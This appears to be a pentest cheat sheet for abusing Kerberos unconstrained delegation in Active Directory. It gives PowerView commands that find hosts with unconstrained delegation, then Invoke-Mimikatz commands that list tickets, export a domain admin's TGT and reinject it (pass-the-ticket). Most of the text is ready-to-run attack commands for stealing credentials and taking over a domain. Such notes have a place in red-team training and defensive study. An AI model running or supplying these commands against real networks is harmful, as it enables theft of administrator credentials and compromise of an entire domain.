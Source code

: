 # Unconstrained Delegation

**Discover domain computers which have unconstrained delegation**

Domain Controllers always show up, ignore them

```
 . .\PowerView_dev.ps1
Get-Netcomputer -UnConstrained
Get-Netcomputer -UnConstrained | select samaccountname
```

**Check if any DA tokens are available on the unconstrained machine**

Wait for a domain admin to login while checking for tokens

```
Invoke-Mimikatz -Command '"sekurlsa::tickets"'
```

**Export the TGT ticket**

```
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'
```

**Reuse the TGT ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <kirbi file>"'
```
